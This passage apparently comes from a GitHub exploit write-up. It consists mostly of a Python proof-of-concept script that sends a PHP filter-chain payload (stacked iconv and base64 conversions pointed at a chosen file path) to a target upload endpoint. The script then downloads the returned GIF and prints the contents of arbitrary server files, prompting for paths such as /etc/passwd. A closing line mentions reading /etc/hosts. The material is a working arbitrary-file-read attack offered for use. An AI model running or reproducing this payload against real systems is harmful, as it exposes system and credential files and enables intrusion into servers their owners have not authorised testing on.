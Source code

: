 ```python
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|"
        "convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|"
        "convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        "convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|"
        "convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|"
        "convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|"
        f"convert.base64-decode/resource={file_path}&accepted_files=image/gif"
    )

    print(f"[*] Target URL: {url}")
    print(f"[*] Trying to read file: {file_path}")

    response = requests.post(url, headers=headers, data=payload)

    if response.status_code == 200:
        print("[+] Request successful!")
        print("[*] Response:")
        print(response.text)

        try:
            response_data = response.json()
            image_url = response_data.get("response")
            if image_url:
                
                print(f"[*] Downloading image from: {image_url}")
                image_response = requests.get(image_url)
                if image_response.status_code == 200:
                    image_filename = image_url.split("/")[-1]
                    with open(image_filename, "wb") as img_file:
                        img_file.write(image_response.content)
                    print(f"[+] Image downloaded: {image_filename}")

                    print("[*] Displaying image content:")
                    with open(image_filename, "rb") as img_file:
                        content = img_file.read()
                        if content.startswith(b"GIF89a"):
                            decoded_content = content.decode("utf-8", errors="ignore")
                            print("\n--- BEGIN FILE CONTENT ---")
                            print("\n".join(line for line in decoded_content.splitlines()))
                            print("--- END FILE CONTENT ---\n")
                        else:
                            print("[-] The file is not a valid image or does not contain readable content.")
                else:
                    print("[-] Failed to download the image.")
            else:
                print("[-] No image URL found in the response.")
        except ValueError:
            print("[-] Failed to parse the JSON response.")
    else:
        print(f"[-] Error: {response.status_code}")
        print(response.text)

if __name__ == "__main__":
    file_to_read = input("Enter the file path to read (e.g., /etc/passwd): ")
    upload_file_read(file_to_read)
```
For example if we want to read ```/etc/hosts```
